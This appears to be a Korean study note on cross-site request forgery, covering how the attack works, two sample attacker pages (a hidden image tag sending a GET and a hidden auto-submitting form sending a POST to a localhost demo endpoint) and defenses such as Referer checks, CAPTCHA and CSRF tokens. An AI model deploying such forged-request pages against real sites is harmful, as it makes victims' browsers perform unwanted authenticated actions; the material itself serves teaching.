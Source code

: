 ## CSRF

### CSRF(Cross Site Request Forgery)

- 사이트 간 요청 위조를 뜻한다.
- 웹 보안 취약점의 일종이며, 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격이다. (수정, 삭제, 등록)

## CSRF 동작원리

### CSRF 공격의 위한 조건

- 사용자는 보안이 취약한 서버로부터 로그인이 되어 있는 상태여야 한다.
- 쿠키 기반의 서버 세션 정보를 획득할 수 있어야한다.
- 공격자는 서버를 공격하기 위한 요청 방법에 대해 미리 파악하고 있어야 한다.

### CSRF 공격

![image](https://github.com/kknyapple/CS-Study/assets/72698829/206a5d49-c062-40f0-aa5a-5385988e10f6)

- 사용자가 보안이 취약한 서버에 로그인한다.
- 서버에 저장된 세션 정보를 사용할 수 있는 session ID가 사용자의 브라우저 쿠키에 저장된다.
- 공격자는 사용자가 악성 스크립트 페이지를 누르도록 유도한다. (게시글 클릭 유도, 메일, 페이지 링크)
- 사용자가 악성 스크립트가 작성된 페이지 접근 시 웹 브라우저에 의해 쿠키에 저장된 session ID와 함께 서버로 요청된다.
- 서버는 쿠키에 담긴 session ID를 통해 해당 요청이 인증된 사용자로부터 온 것으로 판단하고 처리한다.

### GET 방식 공격

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Attacker Site</title>
</head>
<body>
<div id="wrap">
    <h1>악성 페이지 - 숨겨진 이미지 태그</h1>
    <img src="http://localhost:8081/change?name=JunhyunnyChangedByImageTag" style="width: 0px; height: 0px;"/>
</div>
</body>
</html>
```

- img 태그를 사용하거나 하이퍼링크를 걸어주는 a 태그 이용한다.

### POST 방식 공격

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Attacker Site</title>
</head>
<body>
<div id="wrap">
    <h1>악성 페이지 - 3초 뒤 숨겨진 폼(form) 전송</h1>
    <form action="http://localhost:8081/change" method="POST">
        <input type="hidden" id="memberName" name="memberName" value="JunhyunnyChangedByFormSubmit"/>
    </form>
    <script>
        setTimeout(function () {
            document.forms[0].submit();
        }, 3000);
    </script>
</div>
</body>
</html>
```

- form 태그와 hidden 타입의 input 태그를 사용한다. 페이지 렌더링이 수행되자마자 폼 전송을 시도한다.

## CSRF 방어 방법

### Referer 검증
- 요청 헤더 정보에서 request의 Referrer를 확인해 도메인이 일치하는 지 검증하는 방법이다.
- 일반적으로 Referrer 검증만으로 대부분의 CSRF 공격을 방어할 수 있다.

### CAPTCHA 도입

![image](https://github.com/kknyapple/CS-Study/assets/72698829/044fbb5d-dcc1-4cf5-8e5a-0dd8de95a86b)

- 요청 시 CAPTCHA 인증 코드가 누락되었거나 올바르지 않은 경우 요청을 거부할 수 있다.

### CSRF  토큰 사용
- 사용자 세션에 임의에 값을 저장하여 모든 요청마다 해당 값을 포함하여 전송하도록 한다.
- 서버에서 요청을 받을 때마다 세션에 저장된 값과 요청으로 전송된 값이 일치하여 검증하여 방어하는 방식이다.

### 참고

- https://devscb.tistory.com/123
- https://devscb.com/post/123/
- [https://itstory.tk/entry/CSRF-공격이란-그리고-CSRF-방어-방법](https://itstory.tk/entry/CSRF-%EA%B3%B5%EA%B2%A9%EC%9D%B4%EB%9E%80-%EA%B7%B8%EB%A6%AC%EA%B3%A0-CSRF-%EB%B0%A9%EC%96%B4-%EB%B0%A9%EB%B2%95)
- https://tibetsandfox.tistory.com/11
- (코드 참고) https://junhyunny.github.io/information/security/spring-boot/spring-security/cross-site-reqeust-forgery/
